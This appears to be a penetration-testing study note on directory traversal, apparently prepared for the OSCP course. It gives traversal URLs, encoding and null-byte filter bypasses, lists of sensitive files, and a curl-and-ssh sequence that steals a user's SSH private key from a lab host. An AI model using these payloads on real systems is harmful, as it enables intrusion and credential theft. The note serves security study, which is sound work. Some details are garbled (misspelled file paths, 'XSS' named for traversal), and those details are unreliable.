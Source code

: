 
Allows attackers to gain unauthorized access to files within an app or files not normally accessible through a web interface.  
This vuln occurs when input is poorly validated allowing for manipulation of file paths with _**../**_ or _**..\\**_  
  
Can be used to help facilitate [file inclusion](9.2%20-%20File%20Inclusion.md) attacks.  

#### Absolute paths
Ex (from user's home folder):   /etc/passwd
- Specifies the full file system path including all subdirectories
- Starts with a '/' to denote the root file system

#### Relative paths
Ex (from user's home folder): ../../etc/passwd
- Refer to the path of a file/ dir relatively from where you currently are
	- Ex:     ../
- Number of **../** sequences is only relevant until the root file system is reached.
- Theoretically, can add as many **../** as desired, since there is nowhere further back to go from **/**
	- Can be useful in certain situations: when we don't know our current working directory.
		- Could specify a large number of **../** to ensure we reach the root file system from a relative pathing perspective.

#### Standard web root directories

Apache
- /var/www/html/  
MariaDB
- C:/xampp/htdocs/  
Nginx
- /usr/share/nginx/html  
- /data/www/

## ID'ing

Always important to hover over all buttons and links to gather info about the page's structure and how parameters are crafted, etc.

Found by examining URL query strings and form bodies in search of values that appear as file references (inc file extensions in URL query strings)  
Ex URL:  
```html
http://target.com/cms/login.php?language=en.html
```
	Note: Site uses php ^ (most aren't this obvious)
	the *language* parameter has an HTML page as its value.  if you can successfully open it, you can canfirm that en.html is a file on the server
		and can try other file names.
	*cms* directory indicates that the web app is running in a subdirectory of the web root
	
Test if file exists on the server:
```html
http://target.com/cms/en.html
```
	If successful, means it's a file stored on the server and allows for a potential entry point for other file names
	Always examine parameters closely when they use files as a value.

Depending on the error message received after playing with the ‘file’ parameter value, we may determine the OS and be able to adjust the XSS payload to target specific files  
Ex URL:  
```html
http://target.com/menu.php?file=c:\windows\system32\drivers\etc\hosts
```


## Testing

When viewing sites and their pages URLs, noticing how parameters for viewing these pages is important.
Scrolling down to the bottom of OSCP's example site, notice a link labeled 'Admin'
![](admin_oscpsite.png)
	Hovering over reveals the link:
```html
http://mountaindesserts.com/meteor/index.php?page=admin.php
```

PHP uses **$\_GET** to manage variables via the GET request.

Clicking on the link presents us an error message stating that the page is currently under maintenance.
![](adminlink_oscpsite.png)
	This info is shown on the SAME page as the index....

Navigating to **hxxp://mountaindeserts[.]com/meteor/admin.php** will show the SAME message that was shown on the **index.php** page after clicking the 'Admin' link.

***What this indicates***  is that the webapp includes the content of the admin.php page via the *page* parameter and displays it under the 'Admin' link
	- Hints at a potentially vulnerable parameter

Can now try to use **../** to traverse directories
```html
http://mountaindesserts.com/meteor/index.php?page=../../../../../../etc/passwrd
```
![](dir_traversal.png)

## Encoding Special Characters

Because leveraging **../** is a known way to abuse web application behavior, this sequence is often filtered by either the web server, web application firewalls, or the web application itself.

So we can use URL encoding (Percent encoding) to potentially bypass the filters

[ASCII encoding table](https://www.w3schools.com/tags/ref_urlencode.asp)

**..** = **%2e**
**/** = **%2F**
```html
http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

### Encoding in [BurpSuite](Tools.md#BurpSuite)

BurpSuite also has a Decoder tab.

Allows for easy Encoding and Decoding for various types
- URL
- HTML
- Base64
- ASCII hex
- Hex
- Octal
- Binary
- Gzip

### Multiple ../

Also possible to use multiple sets of ../ within so that if the filter strips one set of ../ it'll leave the other.
```bash
http://192.168.50.16/cgi-bin/....//....//....//....//etc//passwd
```

## Useful directories and files

When retrieving important files (rsa private key for example), use [**curl**](OS%20Commands.md#curl) to obtain the information.
- Browsers often try to parse or optimize elements for user friendliness which could lead to issues.
- HTTP code with be returned, so only copy/ save the part you need.
	- For SSH keys, copy from **-----BEGIN OPENSSH PRIVATE KEY-----** through **-----END OPENSSH PRIVATE KEY-----** only
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../../home/offsec/.ssh/id_rsa
# copy ssh key parts only & save to a file <key_file>
# change the perms of the file to be strict
chmod 400 <key_file>
# connect via their ssh key
ssh -i <key_file> -p 2222 offsec@mountaindesserts.com
```

#### Linux  - /
- /etc/password - (get user names)
- /etc/shadow - (get user hashes)
- /etc/hosts - (get internal network mapping)
- /home/\<user>/.ssh/id_rsa - (get ssh keys from said users)
  
#### Windows  - \\
- C\:\\boot.ini
- C\:\\windows\\system32\\drivers\\etc\\hosts
- C:\\inetpub\\logs\\LogFiles\\W3SVC1\\. - (If running IIS web server, get logs)
- C:\\inetpub\\wwwroot\\web.config - (If running IIS web server, potentially get usernames or passwords)
  
  
## Null Bytes
Developers can specify the type of file it's looking for:  
```html
http://target.com/menu.php?file=/etc/passwd
<!--becomes-->
http://target.com/menu.php?file/etc/passwd.php
```
  
Adding the Null Byte _%00_ or _0x00_ to terminate the string and trick the webapp into ignoring everything else afterwards:  
```html
http://target.com/menu.php?file=/etc/passwd%00
```


*This is patched in PHP 5.3.4 and above  
  
If the files are blocked, can attempt to view them by adding a _./_ at the end:  
```html
http://target.com/menu.php?file=../../../../etc/passwd/.
```
